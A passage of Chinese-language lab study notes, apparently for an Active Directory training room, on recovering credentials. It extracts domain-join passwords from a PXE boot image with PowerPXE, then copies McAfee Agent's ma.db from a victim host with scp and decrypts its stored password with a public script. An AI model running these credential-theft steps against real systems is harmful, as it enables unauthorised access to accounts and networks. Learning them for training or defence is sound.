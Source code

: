         5. **提取凭证**：使用 `PowerPXE` 脚本或手动挂载镜像，查找 `bootstrap.ini` 文件，从中恢复用于域加入的明文凭证。
            
            PowerShell
            
            ```
            Get-FindCredentials -WimFile pxeboot.wim
            # 输出示例
            # >>>> DeployRoot = \\THMMDT\MTDBuildLab$
            # >>>> UserID = <account>
            # >>>> UserDomain = ZA
            # >>>> UserPassword = <password>
            ```
            
- **利用本地配置文件 (Exploiting Local Configuration Files)**：
    
    - **背景**：在获得对某台主机的访问权限后，检查各类应用程序的配置文件是寻找凭证的有效方法。自动化枚举脚本（如 Seatbelt）可以协助此过程。
    - **示例：从 McAfee Agent 数据库恢复凭证**
        1. **定位文件**：McAfee Agent 将其配置（包括连接凭证）存储在一个名为 `ma.db` 的 SQLite 数据库文件中，通常位于 `C:\ProgramData\McAfee\Agent\DB\`。
        2. **拷贝文件**：使用 `scp` 等工具将 `ma.db` 文件从受害主机复制到攻击机。
            
            Bash
            
            ```
            scp user@victim_host:C:/ProgramData/McAfee/Agent/DB/ma.db .
            ```
            
        3. **读取数据库**：使用 `sqlitebrowser` 等工具打开 `ma.db` 文件，并浏览 `AGENT_REPOSITORIES` 表。
        4. **解密密码**：表中的 `AUTH_PASSWD` 字段是加密的。McAfee 使用一个已知的密钥进行加密，可以使用公开的解密脚本来恢复明文密码。
            
            Bash
            
            ```
            python mcafee_sitelist_pwd_decrypt.py <ENCRYPTED_AUTH_PASSWD_VALUE>
            ```